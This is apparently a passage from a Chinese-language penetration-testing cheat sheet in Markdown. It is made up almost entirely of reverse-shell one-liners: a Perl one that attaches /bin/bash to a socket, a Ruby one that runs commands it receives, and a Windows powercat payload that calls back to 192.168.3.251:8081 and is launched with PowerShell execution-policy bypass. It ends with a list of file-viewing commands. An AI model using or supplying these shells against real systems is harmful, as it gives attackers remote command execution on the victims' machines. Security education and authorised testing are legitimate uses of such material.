 #### Perl

```
perl -e 'use Socket;$i="ip";$p=prot;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

#### Ruby

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("ip","port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

#### Windwos

```
WIndows
PS C:\> Import-Module .\powercat.ps1
PS C:\> powercat -c 192.168.3.251 -p 8081 -e cmd -g >> payload.ps1
# nc -lvp 8081 然后开始监听payload回连的端口

powershell –exec bypass –Command "& {Import-Module 'C:\payload.ps1'}"
#挂在后台执行
```

## 查看内容命令

```
cat、tac、more、less、head、tail、nl、sed、sort、uniq
```
